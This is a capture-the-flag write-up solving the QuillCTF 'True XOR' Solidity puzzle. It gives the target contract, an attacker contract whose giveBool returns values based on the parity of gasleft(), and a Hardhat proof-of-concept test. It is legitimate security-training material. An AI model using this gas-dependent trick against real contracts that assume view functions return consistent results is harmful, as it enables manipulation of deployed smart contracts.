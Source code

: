 # QuillCTF : True XOR

## Objective of CTF
- Make a successful call to the `callMe` function.
- The given `target` parameter should belong to a contract deployed by you and should use `IBoolGiver` interface.

### Contract code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IBoolGiver {
  function giveBool() external view returns (bool);
}

contract TrueXOR {
  function callMe(address target) external view returns (bool) {
    bool p = IBoolGiver(target).giveBool();
    bool q = IBoolGiver(target).giveBool();
    require((p && q) != (p || q), "bad bools");
    require(msg.sender == tx.origin, "bad sender");
    return true;
  }
}
```

We have to write a contract that will return a different boolean value on giveBool() function

Because according to the interface, giveBool() is a view function, we can't change the state on the first call to giveBool(), so we have to find something that will return differently on the first and second call to giveBool()

As the remaining gas on the second function call will be less than the remaining gas on the first function call, we can use `gasleft()`

### Attacker contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./true-xor.sol";

contract TrueXORSolver {
    function giveBool() external view returns (bool) {
        if (gasleft() % 2 == 0) {
            return true;
        }
        else {
            return false;
        }
    }
}
```

Finally find a value for gasLimit to call `callMe()` with the attacker contract address, that the first call and second call to `giveBool()` can return differently 

## Proof of concept

### Hardhat test
```js
const { expect } = require("chai");
const { ethers } = require("hardhat");

describe('QuillCTF : True XOR', () => {

  before(async () => {
    [owner, attacker] = await ethers.getSigners();
    contract = await ethers.getContractFactory('TrueXOR', owner).then(f => f.deploy());
    await contract.deployed();
  });

  it('Call to callMe() should be success', async () => {
    // deploy the attacker contract
    attackerContract = await ethers
      .getContractFactory('TrueXORSolver', attacker)
      .then(f => f.deploy());
    await attackerContract.deployed();

    expect(await contract.connect(attacker).callMe(attackerContract.address, {gasLimit: 100000})).to.be.true;
  });
});
```
